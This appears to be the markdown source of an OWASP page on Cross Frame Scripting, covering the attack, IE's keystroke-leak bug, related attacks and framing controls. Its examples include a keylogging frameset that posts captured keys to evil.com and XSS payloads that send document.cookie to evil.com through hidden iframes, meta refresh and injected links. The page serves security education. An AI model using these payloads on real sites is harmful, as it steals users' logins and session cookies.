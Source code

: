 ```yaml
---
layout: col-sidebar
title: Cross Frame Scripting
author: Rezos, Justin Ludwig
contributors: KristenS, Michael Brooks, Andrew Smith, kingthorin
permalink: /attacks/Cross_Frame_Scripting
tags: attack, Cross Frame Scripting
---
```


{% include writers.html %}

## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as they try to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like they are actually visiting example.com The
attacker registers some JavaScript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

```html
<!-- http://evil.com/example.com-login.html -->
<head>
<script>
// array of user keystrokes
var keystrokes = [];
// event listener which captures user keystrokes
document.onkeypress = function() {
    keystrokes.push(window.event.keyCode);
}
// function which reports keytrokes back to evil.com every second
setInterval(function() {
    if (keystrokes.length) {
        var xhr = newXHR();
        xhr.open("POST", "http://evil.com/k");
        xhr.send(keystrokes.join("+"));
    }
    keystrokes = [];
}, 1000);
// function which creates an ajax request object
function newXHR() {
    if (window.XMLHttpRequest)
        return new XMLHttpRequest();
    return new ActiveXObject("MSXML2.XMLHTTP.3.0");
}
</script>
</head>
<!-- re-focusing to this frameset tricks browser into leaking events -->
<frameset onload="this.focus()" onblur="this.focus()">
<!-- frame which embeds example.com login page -->
<frame src="http://example.com/login.html">
</frameset>
```

### XSS Attack Using Frames

To exploit a [Cross Site Scripting]({{ site.baseurl }}/attacks/xss/) on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some JavaScript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

```html
<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>
```

The iframe is hidden off-screen, so the browser user won't have any idea
that they just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

```html
<meta http-eqiv="refresh" content="1;url=http://example.com/↵
flawed-page.html?q=
<script>
  document.write('<img src=\"http://evil.com/↵
      ?c='+encodeURIComponent(document.cookie)+'\">')
</script>
">
```

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that they
just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that they are visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting]({{ site.baseurl }}/attacks/xss/) as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some JavaScript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

```html
http://example.com/flawed-page.html?=<iframe src="↵
    javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>
```

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

- An XFS attack exploiting a browser bug which leaks events across
  frames is similar to an attack which uses conventional key-logging
  software.

## Related Attacks

- An attacker might use a hidden frame to carry out a [Cross-site Scripting (XSS)](xss) attack.
- An attacker might use a hidden frame to carry out a [Cross-Site Request Forgery (CSRF)]({{ site.baseurl }}/attacks/csrf) attack.
- An attacker might use a visible frame to carry out a [Clickjacking](Clickjacking) attack.
- An XFS attack exploiting a browser bug which leaks events across frames is a form of a Phishing attack (the
  attacker lures the user into typing-in sensitive information into a frame containing a legitimate third-party page).

## Related Vulnerabilities

- XFS attacks exploit specific browser bugs.

## Related Controls

- XFS attacks may denied by preventing the third-party web page from
  being framed; the techniques used to do this are the same as those
  used for Clickjacking Protection.

## References

- MSDN article [About Cross-Frame Scripting and Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
- iDefense Labs advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)

